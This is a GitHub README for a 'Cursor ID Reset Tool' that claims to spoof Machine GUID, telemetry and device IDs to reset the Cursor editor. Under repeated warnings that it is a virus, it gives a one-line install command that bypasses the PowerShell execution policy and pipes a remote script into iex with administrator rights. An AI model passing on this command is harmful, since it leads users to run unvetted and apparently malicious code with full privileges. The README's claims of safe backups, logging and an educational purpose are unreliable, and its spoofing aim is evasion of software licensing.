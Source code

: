 # Cursor ID Reset Tool

# THIS IS A VIRUS DO NOT RUN

# THIS IS A VIRUS DO NOT RUN

# THIS IS A VIRUS DO NOT RUN

# THIS IS A VIRUS DO NOT RUN

# THIS IS A VIRUS DO NOT RUN

## 🚀 Quick Installation

Open PowerShell as Administrator and run:
```
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; iwr -Uri "https://raw.githubusercontent.com/CeifadorPT/CursorTool/refs/heads/main/powershellcode.ps1" -UseBasicParsing | iex
```
That's it! The script will handle everything else automatically.

## 🔍 Compatibility

- ✅ Tested on Cursor v0.45.9 and earlier versions

## 🛠️ Features

- 🔄 Automatic backup of existing device IDs
- 🎲 Generation of new random device identifiers
- 🔐 Registry modification handling
- 📝 Detailed logging of changes
- 🔍 Verification of process state

## ⚡ Quick Start

1. Close Cursor completely (including background processes)
2. Run the script with administrator privileges
3. Wait for the process to complete
4. Restart Cursor

## 🚨 Prerequisites

- Windows operating system
- PowerShell 5.1 or later
- Administrator privileges
- Cursor editor must be completely closed

## ⚠️ Important Notes

- **Backup**: The script automatically creates backups of your original device IDs
- **Process Check**: Includes automatic verification that Cursor is not running
- **Registry Changes**: Modifies system registry entries related to device identification

## 🔍 Technical Details

The script manages the following identifiers:
- Machine GUID
- Telemetry Machine ID
- MAC Machine ID
- Device ID
- SQM ID

## 📝 Logging

All changes are logged with timestamps, including:
- Backup file locations
- New generated IDs
- Modified registry entries

## ⚠️ Disclaimer

This tool is provided for educational and research purposes only. Users assume all responsibility for its use. The developer:
- Makes no warranties about the tool's functionality
- Is not responsible for any potential issues
- Does not guarantee compatibility with future Cursor versions

## 🤝 Contributing

Feel free to submit issues and enhancement requests via GitHub.

## 📜 License

[MIT License](LICENSE)

---

💡 **Note**: Always ensure you have a backup of your system before making registry modifications.
